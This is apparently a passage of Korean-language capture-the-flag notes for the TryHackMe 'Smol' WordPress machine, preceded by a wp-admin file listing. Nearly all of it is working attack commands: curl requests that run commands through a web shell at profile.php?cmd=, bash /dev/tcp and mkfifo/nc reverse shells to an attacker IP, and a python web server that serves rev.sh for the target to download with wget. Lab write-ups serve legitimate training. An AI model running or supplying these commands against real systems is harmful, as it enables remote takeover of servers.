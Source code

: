 erase-personal-data.php
export-personal-data.php
export.php
freedoms.php
images
import.php
includes
index.php
install-helper.php
install.php
js
link-add.php
link-manager.php
link-parse-opml.php
link.php
load-scripts.php
load-styles.php
maint
media-new.php
media-upload.php
media.php
menu-header.php
menu.php

# reverse shell 연결

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=bash -i >& /dev/tcp/10.8.136.212/1234 0>&1

2. **리버스 쉘 스크립트 작성**

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.136.212/1234 0>&1'" > rev.sh

```

3. **공격자가 악성 스크립트 배포를 위한 서빙**

```bash
python3 -m http.server 6666
```

4. **타겟에서 스크립트 다운로드** -> 안전하게 /tmp 에 설치

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc {Your IP} 4444 > /tmp/f

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=chmod +x /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=cat /tmp/rev.sh > tmp.txt
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=ls -al /tmp/
cat tmp.txt | batcat

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=ls | batcat
